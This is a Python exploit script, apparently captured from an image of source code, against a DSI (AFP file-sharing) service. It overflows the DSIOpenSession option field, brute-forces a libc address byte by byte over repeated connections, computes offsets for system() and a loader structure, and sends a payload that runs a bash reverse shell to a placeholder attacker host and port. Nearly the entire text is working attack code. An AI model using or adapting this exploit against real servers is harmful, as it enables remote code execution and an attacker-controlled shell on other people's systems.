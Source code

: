 ```python


# Utilities
p8: Callable[[int], bytes]
p32: Callable[[int], bytes]
u64: Callable[[bytes], int]

def create_header(payload: bytes, custom_payload: bool=False) -> bytes:
    # See https://en.wikipedia.org/wiki/Data_Stream_Interface
    if not custom_payload:
        dsi_opensession = b"\x01"  # DSIOPT_ATTNQUANT
        dsi_opensession += p8(len(payload))  # length, we fill 0x10 before our payload, making it easier to be received.
        dsi_opensession += payload  # payload
    else:
        dsi_opensession = payload
    dsi_header = b"\x00"  # "request" flag - 1 byte
    dsi_header += b"\x04"  # "DSIOpenSession" command - 1 byte
    dsi_header += b"\x00\x01"  # request id - 2 bytes
    dsi_header += b"\x00\x00\x00\x00"  # enclosed data offset - 4 bytes, left as 0 for request except DSIWrite
    dsi_header += struct.pack(">I", len(dsi_opensession))  # Total data length - 4 bytes
    dsi_header += b"\x00\x00\x00\x00"  # reserved - 4 bytes
    dsi_header += dsi_opensession
    return dsi_header


def create_exploit_header(payload: bytes, padding: bytes=b'A', padding_size: int = 0x10):
    return create_header(padding*padding_size + payload)

# SCA Bruteforce
def leak_address() -> int:
    addr = b''
    for _ in range(6):
        for i in range(0xff, -1, -1):
            sh = remote(host, port)
            sh.send(create_exploit_header(addr + i.to_bytes(1, 'big')))
            if b'A'*4 in sh.recvrepeat(1):
                addr += i.to_bytes(1, 'big')
                print(f"Find new addr {hex(i)}, address: {'0x' + ''.join(hex(i)[2:].zfill(2) for i in addr[::-1])}")
                sh.close()
                break
            sh.close()
    if len(addr) != 6:
        raise ValueError("No valid address exploited!")
    return u64(addr.ljust(8, b'\x00'))

leak_addr = leak_address()

# Local
libc_base = leak_addr - (0x7f95a0e4ffff - 0x7f959ff97000)
print(">> libc_base:", hex(libc_base))
rtld = libc_base + 0xed4060
system = libc_base + 0x04f420
cmd = f'bash -c "bash -i>& /dev/tcp/{R_HOST}/{R_PORT} 0<&1"'.encode()
# cmd = f'bash -c "ls > /hi.txt"'.encode()

sh = remote(host, port)
sh.send(create_exploit_header(p64(rtld+2312)) + create_header(cmd.ljust(0x5f8, b'\x00') + p64(system), custom_payload=True))

```